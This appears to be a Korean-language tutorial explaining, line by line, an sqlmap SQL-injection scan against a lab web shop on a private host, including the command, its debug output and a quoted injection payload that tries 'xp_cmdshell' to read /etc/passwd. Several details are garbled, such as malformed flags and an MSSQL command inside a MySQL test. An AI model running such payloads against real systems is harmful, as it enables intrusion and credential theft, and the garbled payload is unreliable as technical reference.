





**`sqlmap -u "http://192.168.184.137/gmshop/goods_detail. php?goodsIdx=232" -- role -v 3`**: 이 줄은 `sqlmap`이라는 보안 도구를 실행하는 명령어입니다. 이 도구는 웹 애플리케이션의 SQL 삽입 취약점을 찾는 데 사용됩니다. `-u` 옵션은 대상 URL을 지정하고, `--role` 옵션은 특정 데이터베이스 역할에 대한 권한을 테스트하며, `-v 3` 옵션은 출력의 상세 수준을 설정합니다.

**`[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal...`**: 이 줄은 sqlmap 사용에 대한 법적 경고입니다. 이 도구를 사용하여 무단으로 공격하는 것은 불법이며, 사용자는 모든 적용 가능한 법률을 준수해야 합니다.

**`[*] starting @ 00:56:22 /2024-06-27/`**: 이 줄은 sqlmap이 시작된 시간을 나타냅니다.

**`[00:56:22] [DEBUG] cleaning up configuration parameters`**: 이 줄은 sqlmap이 설정 매개변수를 정리하는 과정을 나타냅니다.

귀하는 쿠키를 선언하지 않았지만 서버는 자체 쿠키를 설정하려고 합니다('PHPSESSID=c6b969bad5d...fec583527e'). 그 [Y/n]을 사용하시겠습니까?

**`[00:57:02] [PAYLOAD] 8593 AND 1=1 UNION ALL SELECT 1, NULL, '", table_name FROM information_schema.tables WHERE 2>1 -- / ** /; EXEC xp_cmdshell( 'cat .. / .. / .. /etc/passwd' )#`**: 이 줄은 sqlmap이 SQL 삽입 테스트를 위해 사용하는 페이로드입니다. 이 페이로드는 데이터베이스에서 정보를 추출하려고 시도합니다.

**`[00:57:04] [WARNING] GET parameter 'goodsIdx' does not appear to be dynamic`**: 이 줄은 GET 매개변수 'goodsIdx’가 동적으로 변경되지 않는 것으로 보인다는 경고 메시지입니다.

**`[00:57:05] [INFO] heuristic (XSS) test shows that GET parameter "goodsIdx' might be vulnerable to cross-site scripting (XSS) attacks`**: 이 줄은 GET 매개변수 'goodsIdx’가 크로스 사이트 스크립팅(XSS) 공격에 취약할 수 있다는 정보 메시지입니다.

백엔드 DBMS가 'MySQL'인 것 같습니다. 다른 DBMS와 관련된 테스트 페이로드를 건너뛰시겠습니까? [예/아니요]

MySQL 데이터베이스에서 UNION 및 UNION ALL 쿼리를 테스트하는 데 사용되는 테스트 스크립트가 표시됩니다.

GET 매개변수 'goodsIdx'가 취약합니다. 다른 항목(있는 경우)을 계속 테스트하시겠습니까? [예/아니요]

이 권한들은 데이터베이스에서 사용자가 할 수 있는 작업을 의미합니다.

이와 동일한 권한들이 각각의 호스트(127.0.0.1, bee-box, localhost)에 대해서도 동일하게 주어져 있음을 알 수 있습니다.
